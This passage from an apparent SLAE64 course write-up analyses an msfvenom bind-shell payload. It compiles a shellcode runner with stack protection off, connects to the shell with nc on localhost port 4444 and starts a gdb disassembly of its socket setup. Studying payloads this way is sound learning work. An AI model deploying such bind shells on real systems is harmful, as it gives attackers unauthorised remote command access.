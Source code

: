 ```c
	
	ret(); 
}
```

Now we need to compile the program:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/2_bind$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode`. Then we connect with `nc` on port `4444` and execute the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/2_bind$ ./shellcode 
Shellcode Length: 19

```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~$ nc localhost 4444
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
shellcode
shellcode.c
exit
geobour98@slae64-dev:~$
```

#### gdb

We load `shellcode` on `gdb`, set a breakpoint at the `code` variable, run and disassemble:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/2_bind$ gdb ./shellcode -q
Reading symbols from ./shellcode...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) print/x &code
$1 = 0x601060
(gdb) break *0x601060
Breakpoint 1 at 0x601060
(gdb) run
Starting program: /home/geobour98/SLAE/custom/SLAE64/5_Msfvenom_payloads/2_bind/shellcode 
Shellcode Length: 19

Breakpoint 1, 0x0000000000601060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000000000601060 <+0>:	push   0x29
   0x0000000000601062 <+2>:	pop    rax
   0x0000000000601063 <+3>:	cdq    
   0x0000000000601064 <+4>:	push   0x2
   0x0000000000601066 <+6>:	pop    rdi
   0x0000000000601067 <+7>:	push   0x1
   0x0000000000601069 <+9>:	pop    rsi
   0x000000000060106a <+10>:	syscall 
   0x000000000060106c <+12>:	xchg   rdi,rax
   0x000000000060106e <+14>:	push   rdx
   0x000000000060106f <+15>:	mov    DWORD PTR [rsp],0x5c110002
   0x0000000000601076 <+22>:	mov    rsi,rsp
```